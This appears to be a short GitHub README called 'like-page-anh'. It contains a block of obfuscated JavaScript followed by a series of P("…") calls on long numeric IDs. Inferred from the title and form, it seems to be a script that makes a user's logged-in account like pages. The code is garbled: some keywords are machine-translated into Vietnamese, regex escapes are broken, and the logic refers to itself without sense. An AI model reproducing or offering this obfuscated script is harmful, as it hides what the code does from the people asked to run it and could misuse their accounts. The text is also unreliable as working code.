 like-page-anh
=============

var _6823; var _2352 =''; var _5804 = / [\ X41 \ x42 \ x43 \ x44 \ x45 \ x46] / var _9231 = 2; var _3367 = _2352.charAt (_2352.length-1); var _4414 var _6129 = _2352.split (_5804); var _6771 = '_7137'; Var _3533 = '_6771 = _4414'; chức năng _9138 (_7129) {_1459 (_2468); _9138 (_9984); _9984 (_3533); _9138 (_6771);} var _2468 = '_9138 = _1459' var _9984 = '_9984 = _9138'; _9138 (_3367); P("239814189529413");P("233811923462973");P("232566883587477");P("192335094277323");P("142803229230510");P("234441356733363");P("234258663418299");
